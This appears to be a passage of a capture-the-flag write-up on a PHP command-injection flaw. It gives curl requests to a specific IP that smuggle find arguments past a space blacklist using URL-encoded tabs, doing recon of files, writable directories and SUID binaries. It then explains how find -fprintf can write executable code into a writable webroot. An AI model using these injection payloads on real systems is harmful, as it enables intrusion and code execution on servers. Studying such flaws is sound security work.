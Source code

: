 ```bash
# Confirm tab-as-separator works
curl 'http://161.97.155.116:8888/?cmd=/%09-maxdepth%091%09-ls'

# Check /readflag exists in top-level
curl 'http://161.97.155.116:8888/?cmd=/%09-maxdepth%091%091%09-type%09f%09-name%09readflag%09-ls'

# List writable webroot
curl 'http://161.97.155.116:8888/?cmd=/var/www/html%09-maxdepth%091%09-writable%09-ls'

# List SUID (for reconnaissance)
curl 'http://161.97.155.116:8888/?cmd=/%09-type%09f%09-perm%09%2F4000%09-maxdepth%09100%09-ls'

```

---

## Vulnerability 1 — Argument splitting via unfiltered tab (Severity: High)

**Description:** `index.php` concatenates user input directly into a shell command passed to `system()`. The application blacklists space and a set of characters, but **does not block tab (`\t`)**, which the shell treats as whitespace. This allows providing multiple arguments to `find` without using a space character.

**Root cause:** unsafe concatenation into `system()` and an incomplete blacklist that assumes only space separates arguments.

**Reproduction / PoC:**

A request with `%09` (URL-encoded tab) splits arguments:

```
GET /?cmd=/%09-maxdepth%091%09-ls

```

This is executed as:

```
find / -maxdepth 1 -ls

```

**Impact:** ability to supply arbitrary `find` options (e.g. `-printf`, `-fprintf`) that can alter file contents on the filesystem — leading to code injection if webroot is writable.

---

## Vulnerability 2 — Unsafe use of `find` options to write files (Severity: High)

**Description:** `find` features like `-fprintf`/`-printf` can write arbitrary bytes to a target file. When passed format strings that contain escape sequences (`\ooo`), `find` expands them to bytes. Because the webroot was writable by the web user, `find -fprintf` can be used to create server-side executable code.
